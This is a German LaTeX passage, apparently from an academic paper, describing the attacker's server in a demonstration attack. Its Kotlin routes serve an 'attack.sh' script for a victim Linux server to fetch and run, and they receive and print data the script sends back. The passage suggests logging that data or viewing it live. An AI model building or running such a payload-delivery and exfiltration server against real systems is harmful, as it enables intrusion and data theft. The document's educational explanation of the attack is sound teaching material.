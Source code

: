 \clearpage


\begin{lstlisting}[language=Kotlin, caption=GET /attack Route,label={lst:attackroute}]
get("/attack") {
    var attackSH = getResourceContent("static/attack.sh")
    attackSH = attackSH.replace("\r\n", "\n")
            .replace("\r", "\n")
    call.respondText(attackSH)
}
\end{lstlisting}
\vspace{5mm}

Die GET-Route holt sich den Inhalt der attack.sh Datei und gibt diesen an den Aufrufer als Response zurück.
Wir gehen in unserem Beispiel davon aus, dass das Opfer die Website auf einem Linux Server betreibt.
Linux nutzt das Line-Ending \\n.
Wird der Angreifer-Server auf einem Windows-PC ausgeführt, müssen die Windows-Zeilenumbrüche noch ersetzt werden, damit der Inhalt vom Linux-Server interpretiert werden kann.


\begin{lstlisting}[language=Kotlin, caption=POST /report Route,label={lst:portreport}]
post("/report") {
    val parameters = call.receiveParameters()
    println("${parameters["key"]} => ${parameters["value"]}")

    call.respondText("OK")
}
\end{lstlisting}
\vspace{5mm}

In diesem Beispiel, werden die Parameter, also Informationen, die vom attack.sh Script gesammelt und zum Server gesendet werden, auf der Console des Servers ausgegeben.
Weiter könnte man sich ein loggen in einer Datenbank beziehungsweise eine Liveansicht über Websockets vorstellen.